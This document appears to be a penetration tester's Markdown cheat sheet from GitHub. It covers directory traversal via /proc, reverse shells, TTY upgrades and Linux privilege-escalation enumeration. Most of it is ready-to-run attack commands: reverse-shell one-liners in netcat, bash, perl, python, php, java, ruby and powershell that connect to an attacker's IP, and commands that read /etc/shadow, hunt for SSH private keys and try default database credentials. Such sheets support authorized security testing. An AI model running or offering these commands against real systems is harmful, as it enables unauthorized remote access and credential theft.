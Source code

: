 ## enumerate about a process using directory traversal
If we have an unknown service on a port exposed, and have a directory traversal bug, then we can use /proc/sched_debug to get PID's to all the running processes, then from that we can make an educated guess so as to what service it can be, then we can use /proc/PID/cmdline to cross check more on this here https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/

## getting a reverse shell:-
### Try using netcat as follows:-
1. on your attacker machine set up a listener by:- `nc -lvp "port"`
2. on the compromised machine connect with the listener and spawn shell by:- `nc -e /bin/bash "attacking machine IP" "port"`
3. If -e flag is missing then use this `mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f`

### If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
`/bin/bash -i >& /dev/tcp/IP/PORT 0>&1` (via bash)<br />
or<br />
`perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'` (via perl)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` (via python) <br />
or<br />
`php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'` (via php)<br />
or<br />
`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()` (via java)<br />
or<br />
`ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)'` (via ruby)<br />
or<br />
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)
# getting a tty shell:-
`python -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`python3 -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`python -c ‘import pty; pty.spawn("/bin/sh")’`<br />
or<br />
`python3 -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`SHELL="/bin/bash" script -q /dev/null`<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

`stty -a` <br />
#### *then do the following in the victim shell*<br />
`export SHELL=/bin/bash`<br />
`export TERM=xterm256-color`<br />
`stty rows "rows u found in step1" columns "columns u found in step1"`<br />

## Making the shell interactive:-

`stty raw -echo`

## the obvious stuff:-

history <br />
whoami <br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

`uname -a` (to get the version of the kernel)<br />
`cat /etc/shells 2>/dev/null` (list available shells)<br />
`ps aux 2>/dev/null`<br />
`find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null` (init.d files not belonging to root)<br />
`find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null` (systemd files not belonging to root)<br />
`mysql --version 2>/dev/null` (to check the version of mysql if installed to check for any known vulnerabilities)<br />
`mysqladmin -uroot -proot version 2>/dev/null` (to check if default creds work)<br />
`mysqladmin -uroot version 2>/dev/null` (to check if no pass works)<br />
`psql -V 2>/dev/null` (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

`find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (read rights)<br />
`find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (write rights)<br />
`find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (executable rights)<br />
`find / -user root -perm -4000 2>/dev/null` (for getting setuid files)<br />
`find / -user root -perm -2000 2>/dev/null` (for getting all setgid files)<br />
`find / -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" 2>/dev/null`  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To locate a file 

locate <file_name>

